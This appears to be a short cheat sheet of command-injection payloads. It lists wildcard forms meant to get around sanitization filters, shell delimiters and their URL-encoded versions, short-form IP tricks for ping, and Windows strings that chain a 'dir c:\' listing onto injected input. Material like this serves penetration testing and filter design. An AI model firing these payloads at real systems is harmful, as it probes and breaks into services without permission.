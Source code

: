 Attempt to bypass sanitization??
-----------------
```
/usr/bin/whoami
/u??/b??/wh?am?
```

Delimiters
------------------
```bash
&
&&
|
||
%0a
;
^
%0D
%0A
\n
<
```
Interesting stuff
-----------------
```
# https://ma.ttias.be/theres-more-than-one-way-to-write-an-ip-address/
# https://github.com/sii/sipcalc
# linux only
ping 0
# Zeros are optional
ping 127.1
'''
Windows
----------------------
```
+|+Dir+c:\
$+|+Dir+c:\
%26%26+|+dir c:\
$%26%26dir c:\
%0a+dir+c:\
+|+Dir+c:%255c
$+|+Dir+c:%255c
%26%26+|+dir c:%255c
$%26%26dir+c:%255c
%0a+dir+c:%255c
+|+Dir+c:%2f
$+|+Dir+c:%2f
%26%26+|+dir c:%2f
$%26%26dir+c:%2f
%0a+dir+c:%2f
+dir+c:\+|
+|+dir+c:\+|
+|+dir+c:%2f+|
dir+c:\
||+dir|c:\
```

